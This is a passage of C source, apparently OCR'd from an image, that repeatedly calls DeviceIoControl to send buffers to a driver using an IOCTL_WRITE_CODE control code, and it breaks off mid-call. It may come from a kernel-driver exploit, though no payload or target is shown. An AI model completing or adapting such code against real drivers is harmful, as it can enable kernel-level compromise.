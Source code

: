 ```c
        DWORD bytesReturned8 = 0;
        DWORD bytesReturned9 = 0;
        DWORD bytesReturned10 = 0;
        DWORD bytesReturned11 = 0;

        BOOL interact2 = DeviceIoControl(
          driverHandle,
          IOCTL_WRITE_CODE,
          &inBuf3,
          sizeof(inBuf3),
          &inBuf3,
          sizeof(inBuf3),
          &bytesReturned3,
          NULL
        );

        BOOL interact3 = DeviceIoControl(
          driverHandle,
          IOCTL_WRITE_CODE,
          &inBuf4,
          sizeof(inBuf4),
          &inBuf4,
          sizeof(inBuf4),
          &bytesReturned4,
          NULL
        );

        BOOL interact4 = DeviceIoControl(
          driverHandle,
          IOCTL_WRITE_CODE,
          &inBuf5,
          sizeof(inBuf5),
          &inBuf5,
          sizeof(inBuf5),
          &bytesReturned5,
          NULL
        );

        BOOL interact5 = DeviceIoControl(
          driverHandle,
          IOCTL_WRITE_CODE,
          &inBuf6,
          sizeof(inBuf6),
          &inBuf6,
          sizeof(inBuf6),
          &bytesReturned6,
          NULL
        );

        BOOL interact6 = DeviceIoControl(
          driverHandle,
          IOCTL_WRITE_CODE,
          &inBuf7,
          sizeof(inBuf7),
          &inBuf7,
          sizeof(inBuf7),
          &bytesReturned7,
          NULL
        );

        BOOL interact7 = DeviceIoControl(
          driverHandle,
          IOCTL_WRITE_CODE,
```